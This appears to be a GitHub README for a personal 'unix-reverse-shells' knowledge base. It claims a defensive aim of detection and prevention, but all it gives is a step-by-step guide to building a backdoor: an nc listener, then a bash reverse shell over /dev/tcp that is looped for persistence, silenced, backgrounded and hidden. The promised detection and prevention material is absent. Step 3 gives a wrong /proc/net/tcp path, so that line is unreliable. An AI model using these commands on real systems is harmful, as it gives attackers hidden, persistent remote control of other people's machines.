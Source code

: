 # unix-reverse-shells
A knowledge base for reverse shells on Unix-like systems.

In my spare time I am fiddling with reverse shells for Unix-like systems.

This repository is to document my findings on:

- how they are typically concealed

- how we can detect this kind of activity on already compromised machines

- what can be done to prevent these from succeeding when an authenticated user plants one

Creating your first reverse shell is astonishingly simple.
1. Create a new shell on your machine:
      ```
      bash
      ```

2. Listen for a connection on your machine:
      ```
      nc -lp <port>
      ```

3. Connect to that port from the target machine:
      ```
       bash -i >& /proc/net/tcp/<your-ip>/<port> 0>&1
      ```

Voila.

After playing with this for a while you'll probably ask - how do we keep it alive?

4. While loop
      ```
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done'
      ```

5. Supress the output
      ```
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1'
      ```

6. Throw it in the background
      ```
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &'
      ```

7. Hide the shell
      ```
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &' && exit > /dev/null 2>&1;
      ```
You now have a backdoor.
